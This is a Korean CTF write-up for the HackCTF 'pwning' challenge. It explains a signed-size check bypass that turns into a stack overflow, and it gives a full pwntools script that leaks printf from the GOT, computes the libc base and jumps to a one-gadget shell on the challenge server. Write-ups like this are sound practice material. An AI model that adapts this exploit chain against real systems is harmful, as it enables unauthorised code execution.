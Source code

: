 ```yaml
---
title: "[HackCTF]pwning"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


그냥 underflow 이용해서 입력할 수 있는 공간을 늘려줄 수 있다면 쉽게 풀 수 있다.

`int $0x80` 있어서 syscall exploit인줄 알고 삽질했다.. pop 가젯이 부족해서 불가능이였다.

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4u);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

`get_n` 함수는 그냥 \n 받기전까지 입력된다. 그리고 v2가 int형이라 underoverflow를 이용해서 값을 늘려줄 수 있다. 

나는 printf를 릭해주고 libc 구한 후에 main으로 돌려서 맞는 libc의 원샷 가젯 찾아서 메인에서 리턴해줬다.

원샷은 libc 다운로드 받아서 one_gadget 돌렸다. libc는 버전 맞춰서 [printf offset](https://libc.blukat.me/?q=printf%3A020&l=libc6-i386_2.23-0ubuntu10_amd64) 구한다음에 libc base 구해줬다.

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./pwning')
p = remote('ctf.j0n9hyun.xyz',3019)
#p = process('./pwning')
r = ROP(e)

p.sendlineafter('? ',str(-1))

payload = '\x90'*0x2c
payload += 'sung'
r.printf(e.got['printf'])
r.raw(e.symbols['main'])
payload += r.chain()
p.sendlineafter('!\n',payload)

p.recvuntil('\n')
printf = u32(p.recv(4))
log.info('printf : '+ hex(printf))
libc_base = printf - 0x049020
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('? ',str(-1))

payload2 = '\x90'*0x2c
payload2 += 'sung'
payload2 += p32(libc_base + 0x3a80c)

p.sendlineafter('!\n',payload2)
p.interactive()
```

